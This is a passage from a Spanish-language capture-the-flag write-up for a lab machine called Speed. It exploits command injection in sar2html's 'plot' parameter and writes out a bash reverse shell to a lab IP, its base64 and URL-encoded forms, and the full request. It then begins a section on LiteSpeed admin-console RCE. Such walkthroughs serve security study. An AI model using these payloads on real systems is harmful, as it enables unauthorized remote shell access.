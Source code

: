 Se trata de una inyección de comandos, ya que por detrás, `sar2html` es un script de **bash**, lo que nos permite, mediante una mala sanitización en los inputs del aplicativo, concatenar comandos a ejecutar en el sistema:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/speed/Speed_google_exploitdb_sar2html_poc.png" style="width: 100%;"/>

Probemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/speed/Speed_page80_sar2html_poc_id_req.png" style="width: 100%;"/>

Revisamos el código fuente:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/speed/Speed_page80_sar2html_poc_id_res.png" style="width: 100%;"/>

Liiiiistones, tenemos ejecución remota de comandos a gran speed :P Para obtener una Shell podemos hacerlo de esta manera:

```bash
echo "bash -c 'bash -i &> /dev/tcp/172.144.3.7/4440 0>&1'" | base64 -w 0
```

Tomamos el output y generamos esta cadena:

```bash
echo YmFzaCAtYyAnYmFzaCAtaSAmPiAvZGV2L3RjcC8xNzIuMTQ0LjMuNy80NDQwIDA+JjEnCg== | base64 -d | bash
```

La [URLencodeamos](https://www.urlencoder.org/es/) para evitar que se corrompa al realizar la petición:

```bash
echo%20YmFzaCAtYyAnYmFzaCAtaSAmPiAvZGV2L3RjcC8xNzIuMTQ0LjMuNy80NDQwIDA%2BJjEnCg%3D%3D%20%7C%20base64%20-d%20%7C%20bash
```

> Nos ponemos en escucha por el puerto `4440`...

Y finalmente hacemos la petición:

```bash
http://172.144.3.9/index.php?plot=;echo%20YmFzaCAtYyAnYmFzaCAtaSAmPiAvZGV2L3RjcC8xNzIuMTQ0LjMuNy80NDQwIDA%2BJjEnCg%3D%3D%20%7C%20base64%20-d%20%7C%20bash
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HMV/speed/Speed_bash_nc_wwwdataSH.png" style="width: 100%;"/>

# OLS Admin RCE: www-data -> nobody [#](#lateral-litespeed-adminconsole-wwwdata2nobody) {#lateral-litespeed-adminconsole-wwwdata2nobody}

Dando vueltas por el sistema, llegamos a la carpeta que tiene toda la info de **LiteSpeed**, dentro, hay un archivo de configuración:

> **LiteSpeed** simplemente es un servidor web, es el cuarto más usado del mundo gracias a su rendimiento. [Más info...](https://www.hostinet.com/hosting-web/litespeed-web-server-todo-lo-que-necesitas-saber/)
